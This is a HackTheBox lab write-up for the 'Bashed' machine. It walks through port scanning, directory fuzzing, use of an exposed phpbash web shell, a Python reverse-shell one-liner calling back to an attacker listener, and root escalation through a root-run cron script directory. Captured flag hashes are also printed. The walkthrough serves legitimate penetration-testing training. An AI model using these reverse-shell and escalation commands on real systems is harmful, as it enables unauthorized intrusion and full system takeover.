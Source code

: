 #HackTheBox 

## <span style="color:#92d050">About </span>

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.68 -oN nmap_scan.txt 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 05:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.70 seconds
```

we only have one port open that greatly reduce our time of enumeration .
Operating System : Linux 

---------
## <span style="color:#92d050">HTTP - 80</span> 

 - we have apache httpd service running on port 80 .
 - version : Apache httpd 2.4.18 ((Ubuntu))

Site : 
![Site Image](/Bashed/Pasted image 20230822151105.png)
General information about php bash on site .

after some enumeration we find out that php bash is implemented on this system as well .
![[Pasted image 20230822153753.png]]

so I run gobuster to find the directory :
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html,.php,.xml,.txt
```

```
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 7743]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

I found lot's of directory and started looking for phpbash.php and found it in /dev :
![[Pasted image 20230822154010.png]]

I click on it and it allowed me to run cmd on target machine so i use python reverse shell to connect to my attacker machine nc listener :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

before i started a nc listener and got a shell .
```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55758
www-data@bashed:/var/www/html/dev$ whoami
www-data
www-data@bashed:/var/www/html/dev$
```

user.txt :
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
88d56d080afddcb62d805e3d09cb7ef2
www-data@bashed:/home/arrexel$ sudo -l
```

I Found user.txt in user arrexel home directory .

-------
## <span style="color:#92d050">Priv Esc</span> 

#Linux

 - After Getting initial access we started post exploitation by first checking the sudo right .

```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

and find out i can run any thing as user scriptmanager .

so i run this cmd to get scriptmanager's shell :
```
sudo -u scriptmanager bash -i
```

and we switch to user :
```
scriptmanager@bashed:/home$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home$
```

I moved to "/" directory and found a /script directory with scriptmanager as owner usually all directory in "/" are owned by root :
![[Pasted image 20230822163842.png]]

checking /scripts:
```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 22 04:04 test.txt
```

we have two files and we have read permission to both of them .
checking content of test.txt :
```
scriptmanager@bashed:/scripts$ cat test.txt 
cat test.txt 
testing 123!
```

checking test.py :
```
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

if we look closely test.py is writing to test.txt but test.txt is owned by root and only he can write , that means test.py is executing with root permission in fact all python files in "/scripts" are executing as root permission because of cronjob mentioned in about section .

so i stored a reverse shell code in rev.py and transfer it using python http server and wget on target machine :
![[Pasted image 20230822164503.png]]

I started a nc listener and wait for some time for script to run and i got a reverse shell .
```
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55176
# whoami
whoami
root
```

I spawn a tty shell using python one liner :
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

the root.txt :
```
root@bashed:~# ls -al
ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Aug 22 04:00 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt 
cat root.txt 
7d0e756e0b28cee1b2a7de2cb4b28053
root@bashed:~# 
```

